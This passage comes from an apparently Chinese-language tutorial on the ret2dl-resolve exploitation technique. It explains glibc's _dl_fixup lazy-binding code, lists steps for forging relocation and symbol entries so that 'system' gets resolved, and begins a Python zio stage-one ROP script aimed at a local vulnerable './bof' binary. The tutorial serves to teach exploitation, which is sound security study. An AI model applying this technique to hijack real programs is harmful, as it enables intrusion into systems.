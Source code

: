 这里还会检查`reloc->r_info`的最低位是不是`R_386_JUMP_SLOT=7`

```
assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

```

接着通过`strtab + sym->st_name`找到符号表字符串，`result`为libc基地址

```
result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,version, ELF_RTYPE_CLASS_PLT, flags, NULL);

```

`value`为libc基址加上要解析函数的偏移地址，也即实际地址。

```
value = DL_FIXUP_MAKE_VALUE (result, sym ? (LOOKUP_VALUE_ADDRESS (result) + sym->st_value) : 0);

```

最后把`value`写入相应的GOT表条目中

```
return elf_machine_fixup_plt (l, result, reloc, rel_addr, value);

```

### 漏洞利用方式

1.  控制EIP为PLT[0]的地址，只需传递一个`index_arg`参数
2.  控制`index_arg`的大小，使`reloc`的位置落在可控地址内
3.  伪造`reloc`的内容，使`sym`落在可控地址内
4.  伪造`sym`的内容，使`name`落在可控地址内
5.  伪造`name`为任意库函数，如`system`

### 控制EIP

首先确认一下进程当前开了哪些保护

![Alt text](http://drops.javaweb.org/uploads/images/a335423cb0291894f5784c64a43edc80f24a5b22.jpg)

由于程序存在栈缓冲区漏洞，我们可以用PEDA很快定位覆写EIP的位置。

![Alt text](http://drops.javaweb.org/uploads/images/688a4c18e5cffac10f77865406ae3bc81517ff2e.jpg)

**stage1**

我们先写一个ROP链，直接返回到`write@plt`

```
from zio import *

offset = 112

addr_plt_read  = 0x08048390   # objdump -d -j.plt bof | grep "read"
addr_plt_write = 0x080483c0   # objdump -d -j.plt bof | grep "write"

#./rp-lin-x86  --file=bof --rop=3 --unique > gadgets.txt
pppop_ret = 0x0804856c
pop_ebp_ret   =  0x08048453
leave_ret = 0x08048481

stack_size = 0x800
addr_bss   = 0x0804a020   # readelf -S bof | grep ".bss"
base_stage = addr_bss + stack_size

target = "./bof"
io   = zio((target))
```